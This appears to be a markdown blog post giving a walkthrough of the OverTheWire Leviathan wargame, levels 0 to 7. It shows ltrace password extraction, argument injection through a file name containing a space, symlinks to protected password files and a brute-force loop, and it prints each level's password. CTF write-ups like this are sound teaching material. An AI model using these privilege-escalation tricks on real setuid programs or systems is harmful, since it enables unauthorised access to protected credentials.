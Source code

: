 ```yaml
---
layout: post
title: OverTheWire - Leviathan 0-7
---
```


## Prompt

Dare you face the lord of the oceans?

Leviathan is a wargame that has been rescued from the demise of intruded.net, previously hosted on leviathan.intruded.net.

## Level 0

`leviathan0:leviathan0`

Check the hidden .backup folder, and look through the long bookmarks file.

```bash
leviathan0@leviathan:~/.backup$ grep leviathan bookmarks.html
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

## Level 1

`leviathan1:rioGegei8m`

We are presented with an executable with its setuid flag set, which means elevated privileges. Using a cheeky `ltrace`, we find the password in a `strcmp`.


```bash
leviathan1@leviathan:~$ file check
check: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=c735f6f3a3a94adcad8407cc0fda40496fd765dd, not stripped
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x804853b, 1, 0xffffd784, 0x8048610 <unfinished ...>
printf("password: ")                                     = 10
getchar(1, 0, 0x65766f6c, 0x646f6700password: hi
)                    = 104
getchar(1, 0, 0x65766f6c, 0x646f6700)                    = 105
getchar(1, 0, 0x65766f6c, 0x646f6700)                    = 10
strcmp("hi\n", "sex")                                    = -1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                     = 29
+++ exited (status 0) +++
leviathan1@leviathan:~$ ./check
password: sex
$ whoami
leviathan2
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```
Reference: https://rainbow.chard.org/2011/10/02/debug-like-a-sysadmin/

## Level 2

`leviathan2:ougahZi8Ta`

Using `ltrace`, we can see that our parameter is passed into `cat` using string interpolation in `snprintf()` after `access()` checks whether the calling process can access the file pathname.

```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                   = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
geteuid()                                                     = 12002
geteuid()                                                     = 12002
setreuid(12002, 12002)                                        = 0
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                        = 0
+++ exited (status 0) +++
```

So if we pass in the name of a file that can be read but includes our filename delimited with a space, we can bypass `access()` and open two files with `cat`. Because we cannot create file names that includes "/etc/leviathan_pass/leviathan3" due to the nature of the `/` character, we have to create a symbolic link to our password file to include.

```bash
leviathan2@leviathan:~$ mkdir /tmp/omicronjob && cd $_
leviathan2@leviathan:/tmp/omicronjob$ echo "dummy file" > dummy
leviathan2@leviathan:/tmp/omicronjob$ ln -s /etc/leviathan_pass/leviathan3 link
leviathan2@leviathan:/tmp/omicronjob$ echo "sneaky" > dummy\ link

```

It looks like our files were passed in. Success!

```bash
leviathan2@leviathan:/tmp/omicronjob$ ltrace ~/printfile "dummy link"
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("dummy link", 4)                                       = 0
snprintf("/bin/cat dummy link", 511, "/bin/cat %s", "dummy link") = 19
geteuid()                                                     = 12002
geteuid()                                                     = 12002
setreuid(12002, 12002)                                        = 0
system("/bin/cat dummy link"dummy file
/bin/cat: link: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                        = 256
+++ exited (status 0) +++
leviathan2@leviathan:/tmp/omicronjob$ ~/printfile "dummy link"
dummy file
Ahdiemoo1j
```
## Level 3

`leviathan3:Ahdiemoo1j`

Here the password is compared with "snlprintf".

```bash
leviathan3@leviathan:~$ ltrace ./level3
__libc_start_main(0x8048618, 1, 0xffffd784, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                    = -1
printf("Enter the password> ")                                = 20
fgets(Enter the password> letmein
"letmein\n", 256, 0xf7fc55a0)                           = 0xffffd590
strcmp("letmein\n", "snlprintf\n")                            = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                    = 19
+++ exited (status 0) +++
```

When we supply that string as the password, we are given a shell with leviathan4 privileges.

```bash
leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
```

## Level 4

`leviathan4:vuH0coox6m`

It looks like our new binary just reads us the password which happens to be in binary.
```bash
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ls -al
total 16
dr-xr-x--- 2 root       leviathan4 4096 Aug 26  2019 .
drwxr-xr-x 3 root       root       4096 Aug 26  2019 ..
-r-sr-x--- 1 leviathan5 leviathan4 7352 Aug 26  2019 bin
leviathan4@leviathan:~/.trash$ ltrace ./bin
__libc_start_main(0x80484bb, 1, 0xffffd774, 0x80485b0 <unfinished ...>
fopen("/etc/leviathan_pass/leviathan5", "r")                  = 0
+++ exited (status 255) +++
leviathan4@leviathan:~/.trash$ ./bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
```
Converting the binary to ASCII gives us `Tith4cokei`.

## Level 5

`leviathan5:Tith4cokei`

This one is pretty simple. We just have to create a log file to be read from with elevated privileges.

```bash
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```

## Level 6

`leviathan6:UgaoFee4li`


```bash
leviathan6@leviathan:~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
leviathan6@leviathan:~$ ./leviathan6 4444
Wrong
leviathan6@leviathan:~$ ltrace ./leviathan6 4444
__libc_start_main(0x804853b, 2, 0xffffd774, 0x80485e0 <unfinished ...>
atoi(0xffffd8ab, 0, 0xf7e40890, 0x804862b)                    = 4444
puts("Wrong"Wrong
)                                                 = 6
+++ exited (status 0) +++
```

Let's brute force it.

```bash
leviathan6@leviathan:~$ for i in {0000..9999}; do ./leviathan6 $i | grep -v Wrong; done
...
whoami
leviathan7
cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```

## Level 7

`leviathan7:ahy7MaeBo9`

The end!
